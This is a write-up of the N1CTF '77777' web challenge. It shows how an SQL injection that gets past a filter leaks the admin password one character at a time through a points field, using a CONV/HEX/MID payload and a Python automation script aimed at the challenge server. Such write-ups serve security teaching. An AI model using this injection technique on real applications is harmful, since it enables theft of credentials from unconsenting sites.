 N1CTF - 77777 Write-up
-------------------------
Category: Web
Points: 1000 (Dynamic scoring, goes down when more people solve it)

Description:
```
"77777" is my girlfriend's nickname，have fun xdd:)

hk node: http://47.75.14.48

cn node: http://47.97.168.223

(Two challenge servers are identical, use either of them.)
```
Upon visiting the site we're shown two very big hints, ``U can update my points in Profile.`` and ``And the flag is `admin's password`:)``, upon visiting the rest of the pages we can see the "profile" which just simply displays the amount of Points they have, on the "Somecode" page we get a screenshot of the code running in the background, and on the someinfo page we get a screenshot which displays what software is running on the server. 

Somecode Picture:
![code](https://i.imgur.com/EMBZgXH.png)

After reading over the code it's obvious that the $points variable is vulnerable to SQL Injection, however it is also running through a waf function which we don't have the code for. After doing some research on different ways I could exploit it, I discovered a technique [here]() about using CONV(hex((query))) to extract data, after struggling on trying to get it working for ages, I FINALLY got it working using this query ``*CONV(HEX((SELECT MID(password,1,3))),16,10)``. For anyone who isn't familiar with the functions in the statement I'll break them down for you, MID allows you to obtain a substring of the field (I couldn't use SUBSTRING because it was blocked by the waf :( ), the format is ``MID(field, <starting position>, <length>)``, after some more fiddling around I wrote a quick python script to automate it for me and do the decoding. 

```
import requests
import re
from time import sleep
s = requests.Session()
regex = "\|\s[\d]+<br" # Regex to extract the current points
flag = "1"
i = 1
password = ""

def dec2hex(dec):
	result = s.get("https://www.binaryhexconverter.com/hesapla.php?fonksiyon=dec2hex&deger={}&pad=false&v=2".format(dec))
	return result.text

while True:
	hi = '*CONV(HEX((SELECT MID(password,{},1))),16,10)'.format(i)
	postData = {
		"flag":flag,
		"hi":hi
	}
	url = "http://47.75.14.48/"
	attack = s.post(url, data=postData, proxies=proxyDict)
	result = re.findall(regex, attack.text)
	if len(result) > 0:
		dechex = result[0].replace("| ","").replace("<br","") # extract points
		hex = dec2hex(dechex) #convert decimal to hex
		plain = bytes.fromhex(hex).decode("ascii") # convert hex to ascii
		password += plain #append to password 
		print(password)
	i += 1
	sleep(1)
```

Results:

![results](https://i.imgur.com/QIJ8y9E.png)

After running it for about 10-20 seconds we have the password, submitting in the format N1CTF{helloctfer23333} gets us the points!
